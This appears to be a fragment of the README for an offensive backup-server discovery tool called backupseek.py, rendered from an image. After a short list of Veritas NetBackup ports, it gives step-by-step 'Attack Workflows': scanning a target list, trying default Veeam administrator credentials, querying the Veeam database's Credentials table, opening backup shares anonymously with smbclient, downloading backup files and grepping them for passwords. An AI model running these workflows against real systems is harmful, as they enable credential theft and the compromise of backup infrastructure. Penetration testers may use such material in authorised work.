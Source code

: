 **Web UI**: `https://server:8401`

### Veritas NetBackup
```
1556     vnetd (master server)
13701    bprd (request daemon)
13702    bpdbm (database manager)
13720    bpcd (client daemon)
13724    vopied (media)
```

## Attack Workflows

### Workflow 1: Quick Discovery
```bash
# 1. Scan network
./backupseek.py targets.txt --full

# 2. Review findings
cat backuplist.txt
cat backup_details.txt

# 3. Extract web interfaces
grep "https://" backup_details.txt
```

### Workflow 2: Veeam Exploitation
```bash
# 1. Find Veeam servers
./backupseek.py targets.txt --veeam

# 2. Test default credentials
# Browse to: https://192.168.10.50:9419
# Try: administrator/password

# 3. Extract credentials from database
# Connect to SQL: VeeamBackup database
# Query: SELECT * FROM [dbo].[Credentials]
```

### Workflow 3: Backup Share Access
```bash
# 1. Full scan
./backupseek.py targets.txt --full

# 2. Test share access
smbclient //192.168.10.50/VeeamBackup -N

# 3. Download backups
smbclient //192.168.10.50/VeeamBackup -N -c 'ls'
smbclient //192.168.10.50/VeeamBackup -N -c 'get backup.vbk'

# 4. Extract credentials
strings backup.vbk | grep -i password
```
